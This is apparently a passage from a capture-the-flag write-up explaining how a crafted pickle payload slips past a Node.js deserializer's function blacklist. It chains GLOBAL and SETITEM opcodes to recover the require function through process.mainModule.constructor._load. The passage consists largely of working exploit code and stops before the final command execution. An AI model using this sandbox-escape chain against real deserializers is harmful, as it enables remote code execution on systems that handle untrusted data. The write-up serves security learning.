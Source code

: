 A blacklist of dangerous functions prevents usage of `eval` or `require`...

`BLACKLIST = ["require", "eval", "setTimeout", "setInterval", "setImmediate"];`

A well known technique used by [metasploit](https://github.com/gojhonny/metasploit-framework/blob/master/lib/msf/core/payload/nodejs.rb#L10) to retrieve the `require` function is to call `this.process.mainModule.constructor._load`.

So, if we use GLOBAL with `'process'` and `'mainModule'` arguments we can stack the `mainModule` object. How could we get access to `constructor` then `_load` as there is no case to pop object and push an arbitrary element of this object?

The way we found is to link the retrieved `mainModule` object into `this` so `this.mainModule` would exist and we could call GLOBAL to retrieve  `constructor` and do it again to retrieve `_load`.

To do that we used SETITEM :

```
case SETITEM:
    var value = stack.pop();
    var key = stack.pop();
    var obj = stack.pop();
    obj[key] = value;
    stack.push(obj);
    break;
```

If we push `this`, then an arbitrary string name (for the key), then the `mainModule` object, SETITEM will add it to this \o/.

How can we get `this` object on the stack ? Call GLOBAL with `'global'` and `'global'` !

Indeed, `global` is a circular reference to itself so `this.global.global === this`.

We have everything we need to retrieve the `require` function!

```
var pickle = ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
// now `this` is on the stack
"S'a'\n"+ // push arbitrary String 'a' (arbitrary key name)
"c"+ // GLOBAL
"process\n"+ //moduleName
"mainModule\n"+ //name
// now we got [`this`, 'a', `process.mainModule`]
"s"+ // SETITEM
// `this` has a new parameter named 'a' which is the mainModule object !
// we do it again for constructor
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'b'\n"+ // push arbitrary String 'b'
"c"+ // GLOBAL
"a\n"+ //moduleName
"constructor\n"+ //name
// now we got [`this`, 'b', `process.mainModule.constructor`]
"s"+ // SETITEM
// and again for `_load`
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'rekire'\n"+ // push arbitrary String 'rekire'
"c"+ // GLOBAL
"b\n"+ //moduleName
"_load\n"+ //name
// now we got [`this`, 'rekire', `process.mainModule.constructor._load`]
"s" // SETITEM
```